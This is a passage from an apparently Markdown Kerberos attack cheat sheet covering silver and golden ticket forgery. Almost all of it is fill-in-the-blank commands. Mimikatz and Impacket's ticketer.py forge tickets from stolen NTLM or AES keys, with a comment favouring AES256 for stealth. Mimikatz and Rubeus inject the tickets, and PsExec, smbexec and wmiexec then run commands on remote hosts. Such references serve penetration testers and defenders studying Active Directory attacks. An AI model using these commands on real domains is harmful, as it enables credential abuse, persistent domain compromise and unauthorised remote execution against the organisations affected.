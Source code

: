 ### Windows \(internal\)

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```text
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```text
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```text
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Golden ticket

> Build a TGT with NTLM hash and krbtgt key, valid until krbtgt password is changed or TGT expires

Tickets must be used right after created

### Linux \(external\)

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```text
# To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
